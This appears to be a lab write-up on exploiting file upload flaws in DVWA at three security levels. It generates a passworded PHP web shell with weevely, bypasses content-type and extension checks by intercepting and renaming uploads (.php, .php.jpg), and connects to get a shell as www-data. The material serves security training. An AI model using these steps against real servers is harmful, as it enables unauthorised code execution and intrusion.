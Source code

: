 ### File Upload Vulnerabilities-Low-Security

* This type of vulnerabilty allows users to upload files such as php shells.

* Steps

1. First create a new php shell with weevely

```
root@kali:~# weevely generate pass ~/Documents/shelling.php
Generated backdoor with password 'pass' in '/root/Documents/shelling.php' of 1285 byte size.
```

* So here we first specifed we want the command weevely, generate to generate the web shell followed by a password followed by where we want to store the shell in.


2. Now we can interact with the php web shell 

```
root@kali:~# weevely http://10.0.2.5/dvwa/hackable/uploads/shelling.php pass
```

* Here i used weevely to connect to the php web shell by connecting to to where the php web shell was uploaded.
* After that i receive a web shell.

```
weevely> id
[-][channel] The remote script execution triggers an error 500, please verify script integrity and sent payload correctness
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@10.0.2.5:/var/www/dvwa/hackable/uploads $ 
```


---

### File Upload Vulnerabilities-Medium-Security


* As the security steps up, there are few minor checks to see if the file is infact a image and not a php web shell etc.

* A new security check is content-type which you can see with any proxy.

```
Content-Type: image/jpeg
```

* We can bypass this by the following steps.

1. First rename the php web shell to a image by changing the extension from .php to .jpeg for example.
2. Then we intercept the web request.
3. From here we change the filename from .jpeg to .php
4. The server will not check for it.



```
root@kali:~/Documents# weevely http://10.0.2.5/dvwa/hackable/uploads/shelling2.php pass
```

```
www-data@10.0.2.5:/var/www/dvwa/hackable/uploads $ id
[-][channel] The remote script execution triggers an error 500, please verify script integrity and sent payload correctness
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

### File Upload Vulnerabilities-High-Security


* Now there two checks on the image that is being uploaded. One check for file type to see if it is a image.
* There is another check to see if the file extension is also jpeg.

* Steps to bypass

1. Choose a image that is jpeg etc.
2. Capture the request with a proxy and now add the php extension before the jpeg.
3. Now send the request to the server.
4. The file should successfully upload.

```
root@kali:~/Documents# weevely http://10.0.2.5/dvwa/hackable/uploads/shell4.php.jpg pass
```

